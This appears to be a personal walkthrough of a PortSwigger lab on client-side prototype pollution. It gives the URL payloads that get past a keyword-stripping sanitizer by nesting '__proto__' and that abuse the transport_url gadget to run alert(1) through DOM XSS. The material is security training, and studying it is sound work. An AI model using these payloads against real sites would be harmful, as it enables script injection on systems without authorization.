 
# Client-side prototype pollution via flawed sanitization

## This lab is vulnerable to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) via client-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution). Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`

______________________________________________

step 1

add `/?__proto__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new nothing changes
it means You've not found a prototype pollution source


![[lab3_no_property_added.png]]

step 2

go to source and look at the js file 

![[lab3_search_logger_js_file.png]]

step 3

`/?__pro__proto__to__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new property added `evilProperty: 'payload'`
it means You've successfully found a prototype pollution source.

![[lab3_properted_added_found_prototype_pollution.png]]

step 4

`?__pro__proto__to__[transport_url]=payload`
you will notice in elements tab `<script>` element has been rendered on the page

![[lab3_script_tag_render.png]]

step 5

add payload `?__pro__proto__to__[transport_url]=data:,alert(1);//` into url 
you will get alert pop up and lab will solved

![[lab3_alert_pop_up.png]]


![[portswigger_wsa/P03_advanced_topics/P24_Prototype-pollution/images/lab3_solved_lab.png]]